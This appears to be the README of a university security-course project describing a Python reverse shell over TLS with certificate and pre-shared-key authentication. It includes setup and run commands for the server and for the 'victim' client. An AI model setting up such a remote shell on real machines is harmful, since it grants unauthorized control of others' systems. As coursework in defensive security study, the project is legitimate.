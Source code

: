 # Wireless Systems Security final project

*Authors: Pau de las Heras and Eric Roy*

*This is the final project of the Wireless Systems Security course from
the ML and Cybersecurity for Internet-Connected Systems MSc at EPSEM-UPC*

**Disclaimer:** this code is published under the MIT license and only for
educational purposes. We are not responsible for any unethical usage of these
scripts.

---

## Outline

We enhance an existing [reverse shell application](https://github.com/frezazadeh/Security-Course-Labs/tree/main/Lab1-Reverse-shell)
by integrating critical security measures like TLS encryption and authentication.

## Features

This is a reverse shell that works over TLS, where the server is authenticated
by the client using a self-signed certificate (which the client has the
public key, otherwise it would be useless), and the client is authenticated
by the server using a pre-shared key (PSK).
Only one client can be connected at a time.

## Usage

**Requirements:** modern version of Python 3. Only builtin modules are used.

### Server-side

On your server (a machine which the victim/client can connect to) you need to
create a self-signed certificate:
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

Then you can run the server:
```
python3 server.py
```

### Client-side

On the client machine, copy *only* the `client.py` file and `cert.pem` (since
copying the rest would lead to the client knowing server keys). Run:
```
python3 client.py
```

### Parameterize

Default values are used everywhere, but you can tweak them as much as you
want. For example:

```
python3 server.py --port 5555 --certificate-path /home/user/file.crt --password 123456789
python3 client.py --server asi.ericroy.net --port 5555 --password 123456789 --public-key-path /home/user/file.pub
```

<!-- REQUIREMENTS
SSL/TLS Encryption:
    Use Python’s ssl module to wrap the sockets.
    Generate or manage self-signed certificates.
    Ensure that data in transit is encrypted and secure.

Authentication Mechanism:
    Implement a method (e.g., password-based, challenge-response, or public/private key pairs) to validate connecting clients.
    Integrate the authentication process immediately after the SSL/TLS handshake and before any shell commands are executed.
-->
<!--
You must share the GitHub link to your project, ensuring that the code is fully commented and includes a complete README section.
In addition, you should provide a link to a demo video where you explain, step by step, the scenario, the problem, your code, and the final execution.
If you are working in a team, each team member must explain a specific part of the project in the video.
-->
